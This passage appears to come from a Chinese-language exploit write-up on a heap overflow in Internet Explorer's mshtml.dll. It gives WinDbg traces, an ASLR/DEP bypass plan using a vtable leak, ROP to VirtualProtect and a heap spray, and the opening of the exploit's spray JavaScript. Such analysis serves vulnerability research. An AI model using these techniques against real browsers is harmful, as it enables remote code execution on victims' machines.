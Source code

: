 	3dd0fae0 3b4510 cmp eax,dword ptr [ebp+10h] ss:0023:0646bfac=000003e8

	3dd0fae3 7caf jl mshtml!CTableLayout::CalculateMinMax+0x514 (3dd0fa94)

	0:013> p

	eax=00000002 ebx=23f54528 ecx=23f51c0c edx=00004141 esi=23f51bf4 edi=00000001

	eip=3dd0fae0 esp=0646bef8 ebp=0646bf9c iopl=0 nv up ei pl nz ac po nc

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00040212

	mshtml!CTableLayout::CalculateMinMax+0x560:

	3dd0fae0 3b4510 cmp eax,dword ptr [ebp+10h] ss:0023:0646bfac=000003e8

	0:013> dd ebp+10

	0646bfac 000003e8 00000000 23f54528 23f54528

	0646bfbc 3db3c057 3db4c101 3db41b8e 00000000

	0646bfcc ffffffff 00000000 00898ef8 1f3fd5cd

	0646bfdc 00000000 00000000 ffffffff 00000000

	0646bfec 7c931600 00000000 00000000 7c98c5a6

	0646bffc 00000038 00000000 00000000 0646c02c

	0646c00c 7c98c622 00000000 00000000 00000010

	0646c01c 00000038 002e62e8 00000000 3db75594

但我们之前创建的堆只有0x70大小，所以导致了溢出。

## **漏洞利用**


整体的思路大概是因为可以通过栈溢出来读取CButtonLayout的虚表指针，虚表指针和漏洞所在的mshtml.dll的偏移是一个固定值,这样就可以泄露出模块的地址来绕过ASLR，然后构造一个ROP调用VirtualProtect修改内存属性来绕过DEP。最后用堆喷把shellcode和rop喷射到绕过DEP的地址，从而执行任意代码。

调试exp的时候需要注意关闭之前开启的堆页，不然会不能执行（之前没考虑到，在这里卡了点时间）。

### **绕过ASLR**
我们来看看exp，首先第一部分是创建了三个大小为500的堆，并且从第200个开始+2的释放中间的堆，这里是利用了Windows下堆管理的机制，分配的这些堆空间最终会紧挨在一起。同时当某块堆空间被释放后如果接下来又有新的申请堆空间操作且和之前释放掉的空间大小差不多，那么会将释放掉的该堆空间重新分配给此时的申请操作。

	var dap = "EEEE";
        while ( dap.length < 480 ) dap += dap;

        var padding = "AAAA";
        while ( padding.length < 480 ) padding += padding;

        var filler = "BBBB";
        while ( filler.length < 480 ) filler += filler;

        //spray
        var arr = new Array();
        var rra = new Array();
